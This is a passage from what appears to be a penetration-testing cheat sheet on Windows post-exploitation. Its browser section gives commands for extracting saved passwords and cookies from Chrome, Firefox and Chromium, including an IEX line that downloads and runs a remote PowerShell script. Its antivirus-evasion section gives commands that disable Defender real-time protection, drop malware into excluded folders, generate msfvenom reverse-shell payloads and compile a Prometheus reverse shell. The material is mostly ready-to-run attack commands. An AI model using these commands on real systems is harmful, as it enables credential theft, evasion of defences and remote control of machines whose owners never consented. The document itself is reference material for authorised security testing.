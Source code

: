     ```
#### Browsers

- **Chrome**

	- Check if chrome is installed 
		```cmd
		dir %LOCALAPPDATA%\Google\Chrome
		```
	- Use [SharpChrome](https://github.com/GhostPack/SharpDPAPI) to retrieve saved passwords 
		```cmd
		.\SharpChrome.exe logins /unprotect
		```
	- Manual (DPAPI Keys, e.g. `kiwi_cmd sekurlsa::dpapi`):
		  - `C:\Users\[USER]\Appdata\Local\Google\Chrome\User Data\Default\Cookies`
		- `C:\Users\[USER]\Appdata\Local\Google\Chrome\User Data\Default\Login Data`
		- `dpapy.py credentials -file [FILE] -key [KEY]`
		- If error in decryption because Chrome version is > 80:
		  https://github.com/Krptyk/chromeDekrpt
	- `metasploit` -> `use post/windows/gather/enum_browsers` -> `set session <id>`
- **Firefox**
	- Find cookies in `cookies.sqlite`
	- Extract them:
    ```bash
    python3 ~/TOOLS/PRIVESC_WINDOWS/cookieextractor.py --dbpath "cookies.sqlite" --host [WEB_IP] --cookie d
    ```
- **Chromium**
	1. Find cookies
	2. Extract them with [SharpChromium](https://github.com/djhohnstein/SharpChromium) 
		```powershell
		IEX(New-Object Net.WebClient).DownloadString('[PATH]/Invoke-SharpChromium.ps1');
		Invoke-SharpChromium -Command "cookies slack.com" 
		```
		Note that you should copy the cookies in the location expected by `SharpChromium`

## Antivirus Evasion

You have an antivirus when you cannot execute malwares [Hacktricks](https://book.hacktricks.wiki/en/windows-hardening/av-bypass.html)

- Enumeration
  - General: `wmic /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntivirusProduct Get displayName`
  - **Defender only:** `Get-MpComputerStatus`
- Folder Exclusion Bypass
  - Check Folders -> `reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths"`
  - Place Malware in Allowed Folder
- Disable AV (Code Execution as Admin)
  - `powershell Set-MpPreference -DisableIOAVProtection $true`
  - `powershell Set-MpPreference -DisableRealTimeMonitoring $true`
- Malware Obfuscation tools:
  - `msfvenom -p [WINDOWS_PAYLOAD] LHOST=[NIC] LPORT=4444 -f exe -x [WIN_BINARY] > out.exe` -> Choose "whoami" / "ping" / "plink"
  - [Ebowla](https://0xdf.gitlab.io/2019/02/16/htb-giddy.html)
  - Prometheus Shell
    - [Download](https://github.com/paranoidninja/0xdarkvortex-MalwareDevelopment/blob/master/prometheus.cpp) + Change IP & Port
    - 32/64-Bit Cross-Compile → `[i686-w64-mingw32-g++ / g++] prometheus.cpp -o prometheus.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc`
